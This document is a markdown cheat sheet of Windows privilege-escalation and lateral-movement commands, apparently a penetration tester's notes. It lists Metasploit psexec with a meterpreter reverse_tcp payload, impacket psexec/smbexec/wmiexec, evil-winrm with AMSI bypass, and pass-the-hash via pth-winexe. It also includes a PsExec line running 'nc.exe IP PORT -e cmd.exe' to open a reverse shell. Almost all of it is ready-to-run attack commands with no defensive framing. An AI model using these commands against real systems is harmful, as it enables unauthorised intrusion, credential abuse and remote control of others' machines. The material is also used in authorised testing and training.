 # privesc tools

## check if win-logon-creds are working

Note: psexec & evil-winrm uses port:5985 (powershell remote access)

### msf

* `use exploit/windows/smb/psexec`
    * `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    * `SHOW TARGETS` > `set TARGET X`
* `use exploit/windows/smb/psexec_psh`

### psexec | smbexec | wmiexec

NOTE: psexec, smbexec will give SYSTEM shell. wmiexec will give user shell.

```bash
$ python3 /opt/impacket/examples/psexec.py USER:'PASS'@IP
$ impacket-psexec DOMAIN/USER:PASS@IP [-hashes :NTLMHASH]

$ impacket-smbexec DOMAIN/USER@IP [-hashes :NTLMHASH]
$ impacket-wmiexec DOMAIN/USER@IP [-hashes :NTLMHASH]
```

### evil-winrm

```bash
# only USER, no DOMAIN needed
$ evil-winrm -i IP -u <USER> [-H NT-HASH | -p PASS]

# custom options
PS> menu
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
```

### winexe

```bash
$ winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
$ pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# --system needs local admin hash
$ pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s SHELL.exe
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" SHELL.exe
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u USER -p PASS nc.exe IP PORT -e cmd.exe
```
